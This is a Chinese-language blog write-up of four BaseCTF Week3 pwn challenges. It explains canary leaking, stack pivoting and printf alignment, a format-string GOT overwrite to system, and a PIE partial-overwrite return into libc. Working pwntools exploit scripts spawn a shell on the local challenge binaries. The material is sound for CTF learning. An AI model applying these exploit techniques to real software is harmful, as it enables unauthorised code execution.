BaseCTF新生赛，尝试做做PWN题

<!-- more -->

## 前言

尝试继续做做Pwn题

### [Week3] 你为什么不让我溢出

**这道题的考点是Cananry保护**，相关知识点可以参考以下文章：

[pwn题绕过canary保护机制新手版](https://blog.csdn.net/RChaos/article/details/105147321)

checksec一下，发现NX和Canary保护都开了

反编译查看主函数：

<div align=center></div>

进去看看vuln()

<div align=center></div>

主要的关键是进行了两次for循环，循环里面有一个read和一个put函数，正好可以用来暴露地址

我们回归汇编代码看看vuln()函数：

<div align=center></div>

一开始是初始化，然后进行一次循环，进行call read和call puts。这里的 `[rbp+var_74]` 应该就是用来记录循环的次数的，也就是 `i` 值，进行完一次循环就会加一

即该指令：
`text:0000000000401258       add     [rbp+var_74], 1`

执行完后：

`text:000000000040125C     cmp     [rbp+var_74], 1`

对比 `[rbp+var_74]`和 **1** 的值，相等就跳出循环，否则继续进行循环。

<div align=center></div>

这里的`call    ___stack_chk_fail`**指令就是用来检测Canary word有没有被修改的，或者可以把Canary word称作Cookie**

**最重要的两条指令**：

```
.text:0000000000401263        mov     rax, [rbp+var_8]
.text:0000000000401267        sub     rax, fs:28h
```

第一条指令先将`rbp+var_8`位置的值赋值给**rax**，再将`rax`的值减去原本位于这里的值`fs:28h`(有些题目是进行异或，但是本质是一样的)，若结果为0（即两个数的值一样），则通过Canary检测，执行`jz      short locret_401277`指令，跳过`___stack_chk_fail`这个会使程序崩溃的函数

所以我们很明显的可以知道，这里`fs:28h`所存储的值就是我所说的**Canary word(或者说Cookie)。**

**所以绕过Canary的保护的一个方法，就是使得两者的数值一样，即可绕过**

这是栈溢出被Canary保护检测到的情况：

<div align=center></div>

可以看到程序崩溃了，并且报错'**检测到了栈溢出**'

**现在看看这道题如何实施绕过**

<mark>第一步：利用read()和put()函数来爆出Canary word的值</mark>

具体原理可以参考上面我给的文章

简单来说就是用垃圾数据填充缓冲区，直到用**一个字节**覆盖掉Canary word的`、\x00`部分（**Canary word的末尾是00，小端序存储，所以低地址先存的是00**）

这样我们put()出来的内容，就会连Canary word都put出来了

**这里注意一下，如果用sendline()发送payload,sendline会自动补充一个**`\n`**换行符，正好一个字节,我们无需再自己补充另外的一个字节了。**

**但是换行符有一个问题，因为我们覆盖的是`\x00`，而换行符`\n`是`0xa`,所以我们`Canary-0xa`才是最后真正的Canary值**

最终exp如下：

<div align=center></div>

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",33681)
io=process('./why')
elf=ELF('./why')
bin_sh=0x4011B6 #system("/bin/sh")地址
ret=0x40101a #ret指令地址
#gdb.attach(io,'b main')

io.recvuntil("Hello Hacker!\n") #接收开头的内容
payload = b"a"*0x68 #构造垃圾数据进行填充
io.sendline(payload) #这里我用sendline发送，自带换行符，刚好一字节覆盖到Canary word
io.recvuntil("a"*0x68) #puts返回我们输入的内容，先接收所有的垃圾数据 a
Canary = u64(io.recv(8).ljust(8, b'\x00'))-0xa #接收Canary值，要减去换行符'0xa'
print ("canary=>" +hex(Canary)) #做标记看Canary值(接收的Canary是十进制,hex看16进制)

payload=b'a'*(0x68)+p64(Canary)+b'a'*(0x8)+p64(ret)+p64(bin_sh) 
#第二次read()，放好Canary位置，注意填充垃圾数据，然后构造payload的即可
io.sendline(payload)
io.interactive()
```

### [Week3] stack_in_stack

这是一道栈迁移的题，相关知识点可以参考一下文章，或者自行了解：

[栈迁移的原理&&实战运用](https://www.cnblogs.com/ZIKH26/articles/15817337.html)

栈迁移主要就是利用`leave ret`这个gadget

checksec一下，只有NX保护开启了

对了，这道题目还给了**libc和ld**，如果libc版本不同的话记得更换

可以参考我的文章：

[为什么Pwn题要注意libc版本？](https://whitea133.github.io/%E4%B8%BA%E4%BB%80%E4%B9%88Pwn%E9%A2%98%E8%A6%81%E6%B3%A8%E6%84%8Flibc%E7%89%88%E6%9C%AC/)

[如何判断libc的版本呢？](如何判断libc的版本呢？)

接下来我们用IDA看看main函数的伪代码：

<div align=center></div>

printf()函数可以打印出当前buf的真实地址，这样我们利用栈迁移就方便很多了

这个题目还给了一个**gift**，即`sub_4011C0`，不注意的话还真发现不了

**这个gift很明显是用来泄露puts函数的真实地址的。这正好为我们后面求出libc基址，利用libc来获得system函数做准备**

<div align=center></div>

ROPgadget拿一下我们要用的gadget。

这里我先给出exp吧，等下再详细解释：

<div align=center></div>

**首先我们注意到第15行**，对于`printf("%p\n", buf)`输出出来的地址，我们要用`int(io.recv(),16)`去接收，recv()里面接收的字节数看情况决定。**由于printf出来的地址，在python中是bytes类型的，所用我们用int(io.recv(),16)，来将16进制的字节类型数据转换为整数类型**

**其次就是到了非常重要的第17行，这道题坑真的非常多。很多时候要动态调试才能找到问题**

第17行的payload，第一个的`p64(0)`是用来抵消leave指令的，因为leave指令的等效于`mov rsp,rbp` `pop rbp` `rsp+8` 这三个指令，因为这里有个`pop rbp`，所以我们用`p64(0)`抵消它，防止影响到我们栈上的关键命令

然后就是`ret`到gift函数的地址，可是后面为什么有两个`ret`呢？
首先，第一个ret，是因为**gift函数**在`ret`前，有一个`pop rbp`的指令 

汇编代码如下：

<div align=center></div>

所以我们要用栈上的一个数据来抵消掉他的`pop`指令，随便一个都行，我这里就用了`ret`

那为什么下面还有一个`p64(ret)`呢？，这个就涉及到后面指令的执行了。

因为我们这一题的栈迁移，循环了两次，第一次是是为了泄露**puts函数地址**从而计算出libc基址，第二次就是为了getshell了。

**而第二次从main函数开始重新执行的时候，我们还会调用一次printf函数**

<mark>而printf函数在执行的时候，有一个步骤，就是检测与rsp有关的某个地址是否是16字节的倍数，否则程序就会报错，无法正常printf出数据（类似于system函数的堆栈平衡，或者说栈对齐）</mark>

接下来我演示一下是什么报错的：我们把第十七行的第二个`ret`去掉，exp如下：

<div align=center></div>

执行错误的exp后，结果如下：

<div align=center></div>

可以看到，程序报错，错误是`stopped with exit code -11 (SIGSEGV) (pid 7090)`

仔细对比可以发现，**line 41行**的`buf=int(io.recv(14),16)`没有正常接收到数据，所以大概率就是**printf()函数没有正常输出内容**，也就是说printf()有问题

**来吧，我们进入gdb调试，给第二次的printf打个断点，按s进入，看看printf到底是哪一步检测了堆栈平衡**

随着我不断进入printf函数的内部：

<div align=center></div>

可以看到这里有一个`buffered_vfprintf`的指令

我们再进去里面，不断下一步：

<div align=center></div>

最终遇到了 ```<buffered_vfprintf+115>    movaps xmmword ptr [rsp + 0x40], xmm0``` 这条指令。

<mark>注意后面写了什么？<[0x7ffd19dc6848] not aligned to 16 bytes></mark>

**就是`rsp + 0x40`这个地址（图示是0x7ffd19dc6848），不是16字节的倍数，没有栈对齐！！！！**

这就是为什么pritnf报错了，无法正常执行

**所以我们要对printf函数进行栈对齐，我这里的方式是通过添加一个`p64(ret)`,来使得后面改变之后`rsp`的地址，从而使得当运行到`<buffered_vfprintf+115>`这条指令时，`rsp + 0x40`是16的倍数**

到这里解释的也差不多了。

<mark>补充另一个解决栈迁移后，printf函数没有栈平衡的方法：就是我们写返回的main函数的地址时，不要选main函数起始的地址，而是跳过 push    rbp; mov     rbp, rsp; sub     rsp, 110h; 这三步之后，选择下一个指令的地址<mark>

**对了，忘了解释为什么要第二次接收buf了，因为第二次执行main函数，buf的地址会变动，所以要重新接收才行**

**这里还有一点，再libc中的gadget，也是可以利用 真实地址 = libc基址 + 偏移地址来利用的**，我们只需要找到gadget再libc中的偏移地址即可（用ROPgadget就行），这里我找到的rdi在libc中偏移地址为0x2a3e5

之后的payload就和普通的ret2libc差不多了。只不过是多了个栈迁移的步骤。

**最后，还要记住，最后的system函数，也要栈对齐！！！！**

### [Week3] format_string_level2

这道题是格式化字符串的题目，同时还涉及到了
改写got表的技巧

checkse看一下保护，NX保护开了，其他都没开。由于开启了NX，利用shellcode在栈中可执行的getsgell方法失效了。

IDA看看main函数：

<div align=center></div>

很典型的read()与printf()函数组合

看了下没有什么gift，没有后面函数。

**既然给了我们格式化字符串的漏洞，那么我们就能泄露地址，而泄露地址常常是和libc组合来解题的。**

**所以我们这道题的解题思路就出来了，泄露地址，求出libc基址，求出libc中的system()函数的真实地址，将改system地址改写到printf的got表中，这样下一次循环读入字符串/bin/sh，就会把字符串读入到system()函数中，成功getshell**

当然，上述的情况下是假设ROP方法不可用的情况，如果ROP可以用的话，大家也可以尝试利用ROP来getshell

那我们泄露哪个函数的真实地址来作跳板，从而求出libc基址呢？

**这个函数必须是执行过一次的函数，只有这样我们才能通过got表来获取函数的真实地址。**

**那我们自然而然的就可以把目光放到printf函数上**

如何利用格式化字符串漏洞泄露地址呢？

可以看看我之前的文章：

[格式化字符串中的%p和%s](https://whitea133.github.io/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E4%B8%AD%E7%9A%84-p%E5%92%8C-s/)

假设你看完了并且懂了。

那我们就开写exp吧，我的exp如下：

<div align=center></div>

exp解释：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",46044)
io=process('./fmt2')
elf=ELF('./fmt2')
libc= elf.libc #使用当前可执行程序的libc(可能导致本地打不通，不过远程一定可以打通)
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf'] #printf函数的got表
print('printf_got:{}'.format(hex(printf_got)))

payload=b'%7$saaaa' + p64(printf_got) #用%s泄露got表记录的printf函数的真实地址(只能用%s)
time.sleep(0.3)
io.sendline(payload)
printf_addr = u64(io.recv(6).ljust(8,b'\x00')) # %s输出的内容要用u64()调整一下
print('printf_addr -> {}'.format(hex(printf_addr)))

printf_sym = libc.sym['printf'] # 查找libc中printf函数的偏移地址
libc_base = printf_addr - printf_sym # 求出libc基址
io.recv()
print('libc_base -> {}'.format(hex(libc_base)))

system = libc_base + libc.sym['system'] # 通过libc基址和偏移地址计算出system真实地址
print("system -> {}".format(hex(system)))

payload= fmtstr_payload(6,{printf_got:system}) #重点：改写printf函数got表，改为system函数地址
# payload= fmtstr_payload(输入字符串的偏移量,{要改的got表:got表改之后的地址})
io.sendline(payload)
io.sendline('/bin/sh\x00') #读取/bin/sh，因为我们改写了got表，所以字符串会读取到system中。getshell
io.recv()

io.interactive()
```

**这一道题我遇到的坑：**

**第一是以为题目出错了，没给libc，不知道怎么使用libc。其实使用 `libc = elf.libc` 即可正常继续下去**

**第二个坑是要学会使用快速改写got表的命令，即`payload= fmtstr_payload(6,{printf_got:system})` ,注意这里的6是值我们输入的格式化字符串的偏移量**

### [Week3] PIE

PIE的题目，第一次做。

main函数如下：

<div align=center></div>

参考了以下文章：

[暑期pwn! pwn! pang! (三)：开了pie的rop绕过](https://blog.csdn.net/qq_43342413/article/details/95639163)

[PIE保护绕过](https://xz.aliyun.com/t/12809?time__1311=GqGxuDcD2Dg0YGN4WxUxYq0KeGK%2FbrgGbD&u_atoken=53d565cde096feda882ff68ca51a10af&u_asig=0a472f9017266715190117823e0052)

[CTF必备技能丨Linux Pwn入门教程——PIE与bypass思路](https://www.cnblogs.com/ichunqiu/p/11350476.html)

主要是第一篇文章比较符合本题。

**开启了PIE保护之后，每次程序运行的程序基址都会不一样。在第二、第三篇文章有详细介绍。**

因为每次程序基址都不同，我们就没办法利用gadget了

你问我为什么？

看下图：

<div align=center></div>

**开启了PIE保护，IDA查看指令的地址就如下。你看看这些指令正常吗？你不会真去拿来用了吧？**

这里有对无PIE保护的介绍：

<div align=center></div>

我们一般的指令都是 0x4开头的把，为什么？就是因为 指令地址 = 程序基址 + 偏移地址

**PIE有一个漏洞就是不管程序基址怎么变，末尾的三位数都是固定的**

算了时间紧迫我不解释了。。。。

总之我们的利用点是 `start main` 函数

<div align=center></div>

gdb动态调试到ret指令之前：

<div align=center></div>

**关键点来了，就是这个 `__libc_start_call_main+128` 是关键。一旦指向ret到这个函数，则我们程序就会开始推出了，也就是exit**

**要想重新执行一次main函数，就是要修改`__libc_start_call_main` ，本来是 `+128`。 要是我们修改到main函数执行之前，比 `+128` 更早的位置，那不就可以重新执行main函数了嘛？**

那怎么找呢？关键又来了。

**我的方法是，用IDA打开 libc.so.6：找到 __libc_start_main函数**

<div align=center></div>

双击查看汇编代码：

<div align=center></div>

**但是注意！！！我们要的不是这个，我们还要往上翻！！知道看到 call rax 和 call exit 这两个关键词**

如下图：

<div align=center></div>

**这里的call rax , 就是进入 main函数 ！！！**

**！！！关键点二：我们要用的指令是 29D89 这个指令，这个指令是先配置好 rax ，然后再 call rax。只有从 29D89 这个指令开始，我们才能正确的返回到main函数。**

**这里有一个隐含的知识点：call 一个函数  。函数执行完后，栈空间的位置是和执行前一模一样的(这里我说的是位置，栈里的数据可能会变化)**

**我们执行 29D89这个指令 ```.text:0000000000029D89                 mov     rax, [rsp+98h+var_90]``` 能够再次中正确调整rax为main函数的地址，最大的功臣就是我们上面所说的那个 '栈位置不变性质'**

所以exp如下：

<div align=center></div>

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",37368)
io=process('./vuln')
elf=ELF('./vuln')
libc= ELF('./libc.so.6')
#gdb.attach(io,'b main')
libc_start_main_offset=0x29d89 #libc_start_main函数的偏移地址，等下告诉你们怎么求
payload=b'a'*(0x100+8) + b"\x89" # \x89就是指令29D89的末2位，刚好修改返回libc_start_main最低位

io.send(payload) # send()  这记得要用send，sendline会多发送一个\n
io.recvuntil(b'a'*0x108) #过滤多余的a
back_main=u64(io.recv(6).ljust(8,b'\x00')) # %s泄露libc_start_main(+??)的真实地址
print('main: {}'.format(hex(back_main)))

libc_base = back_main - libc_start_main_offset # 求出libc基址
print('libc_base: {}'.format(hex(libc_base)))

pop_rdi_libc = 0x2a3e5 #libc中的pop rdi; ret
ret_libc=0x29139    #libc中的ret
system_libc_addr = libc.sym['system'] #system的偏移地址
binsh_libc_addr = next(libc.search(b"/bin/sh")) #libc查/bin/sh字符串
pop_rdi = libc_base + pop_rdi_libc #求真实地址
ret=libc_base + ret_libc
system = libc_base + system_libc_addr
binsh = libc_base + binsh_libc_addr

payload=b'a'*(0x100+8)+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system) #记得system的堆栈平衡
io.send(payload)
io.recv()
io.interactive()
```

求出 `libc_start_main_offset` 的方法，在gdb中用 `vmmap` 和 `distance` 命令

`vmmap` 查找 libc基址的方法：

<div align=center></div>

**0开头的那个libc，最左边的就是地址(Start)**

这里有libc基址为什么不直接用？因为每次libc基址不固定，这里我们虽然可以查，但是无法直接写入exp。 还是得靠 `libc基址 = 真实地址 - 偏移地址` 来表示出来。

用 `distance` 求偏移地址的方法：

<div align=center></div>

结果如上图所示, `distance libc基址 libc_start_call_main_` 即可。 

**这样就求出了偏移地址**

补充一下：

**```printf("%s", buf);``` ，由于占位符 `%s` 的原因，buf中的内容会以字符串的形式全部输出出来**

**但是它不同于我的这篇文章[格式化字符串中的%p和%s](https://whitea133.github.io/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E4%B8%AD%E7%9A%84-p%E5%92%8C-s/)**

```   
read(0, buf, 0x100uLL);
printf(buf);
```

**当我们输入 `aaaa%6$s`时（这个就是buf的内容了）， 是读取对应栈上寄存的地址，查看其指针指向的内容并以字符串格式输出出来，而不同于上面的直接以字符串格式输出buf所有内容**

## 结语

第二道题栈迁移不是难点，倒是printf的栈对齐把我整麻了。

还有要记一下printf栈没对齐的时候的报错信息，后面出问题可以反应一下。

其次就是printf()函数输出的数据，要用int()来调整一下

